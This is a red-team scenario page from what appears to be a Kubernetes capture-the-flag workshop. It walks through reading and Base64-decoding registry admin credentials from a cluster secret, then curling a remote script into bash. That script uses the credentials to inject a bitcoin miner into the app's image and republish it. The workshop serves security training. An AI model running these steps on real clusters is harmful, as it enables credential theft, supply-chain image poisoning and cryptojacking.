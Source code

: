 # The calls are coming from inside the container! Scenario 3 Attack

## Red Team Update

It appears the blue team has again deleted our bitcoinero pods.  It's time to get sneakier.  Instead of trying to deploy new pods into their cluster, let's poke around to see if there's anything we can use.

Lets , let's see if there's any credentials accessible.

```
# In case you need to re-download kubectl
cd /usr/local/bin; curl -LO https://dl.k8s.io/release/v1.28.10/bin/linux/amd64/kubectl; chmod 555 kubectl

# Let's see if there's any secrets left out for us to grab
kubectl get secrets
```

Ooh.  There's something called `acr-secret`.  Let's dig in.
```
kubectl get secrets/acr-secret -o json
```

There's a .dockerconfigjson file in the secret that appears to be Base64 encoded

```
kubectl get secrets/acr-secret -o json | jq -r '.data.".dockerconfigjson"' | base64 -d - | jq
```

Now we're talking!  It looks like they put the admin credentials for their registry in a secret.  I bet we can use this to both PUSH and PULL new images to their registry.

We can use [Buildah](https://buildah.io/) to create, pull and push container images.  However, we will need escalated privledges.  

Some of the other red-team members have found this [neat trick from Twitter](https://x.com/mauilion/status/1129468485480751104), which deploy a container that gives us full host access.  Let's work with them to find a way to utilize this.

... TIME PASSES ...

Good luck!  They've come up with two scripts:

* [run-bitcoin-injector.sh](https://github.com/lastcoolnameleft/aks-ctf/blob/main/workshop/bitcoin-injector/run-bitcoin-injector.sh) - deploy a [Kubernetes Job](https://kubernetes.io/docs/concepts/workloads/controllers/job/) that uses the registry credentials we found, to create another pod that injects our bitcoin miner into the container
* [inject-image.sh](https://github.com/lastcoolnameleft/aks-ctf/blob/main/workshop/bitcoin-injector/inject-image.sh) - Uses Buildah to pulls the current app image, injects the bitcoin miner into the image, re-publishes the image under the same name

Let's go back to our admin panel and run the following:

```console
curl -O -J https://raw.githubusercontent.com/lastcoolnameleft/aks-ctf/refs/heads/main/workshop/bitcoin-injector/run-bitcoin-injector.sh; bash run-bitcoin-injector.sh
```

Everything has been installed.  Let's kill our process and let the new image come up
```
kubectl delete pod $HOSTNAME
TODO: kubectl rollout restart 
```

The page immediately died (which is understandable since we killed the pod).  Let's reload the page and see if we were successful.  Run the following command in the admin page

```
ps
```

Our `moneymoneymoney` process is there and running inside their container!  Good luck finding that one!